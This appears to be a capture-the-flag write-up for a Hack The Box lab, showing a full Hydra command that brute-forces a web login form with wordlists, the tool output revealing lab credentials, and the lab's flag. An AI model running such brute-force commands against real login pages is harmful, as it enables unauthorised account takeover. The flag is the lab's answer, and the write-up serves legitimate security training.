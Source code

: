 Remember that crafting the correct`params` string is crucial for a successful Hydra attack. Accurate information about the form's structure and behavior is essential for constructing this string effectively. Once Hydra has completed the attack, log into the website using the found credentials, and retrieve the flag.

# Question
---

![Pasted image 20250213151909.png](../../../../IMAGES/Pasted%20image%2020250213151909.png)

We can use the following hydra command:

```
hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f IP -s PORT http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials" -t 60
```

We get the following output:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-13 20:19:47
[DATA] max 60 tasks per 1 server, overall 60 tasks, 3400 login tries (l:17/p:200), ~57 tries per task
[DATA] attacking http-post-form://94.237.54.190:48919/:username=^USER^&password=^PASS^:F=Invalid credentials
[48919][http-post-form] host: 94.237.54.190 login: admin password: zxcvbnm
[STATUS] attack finished for 94.237.54.190 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

Got credentials:

```
`admin`:`zxcvbnm`
```

![Pasted image 20250213152115.png](../../../../IMAGES/Pasted%20image%2020250213152115.png)

Flag is:

```
HTB{W3b_L0gin_Brut3F0rc3}
```

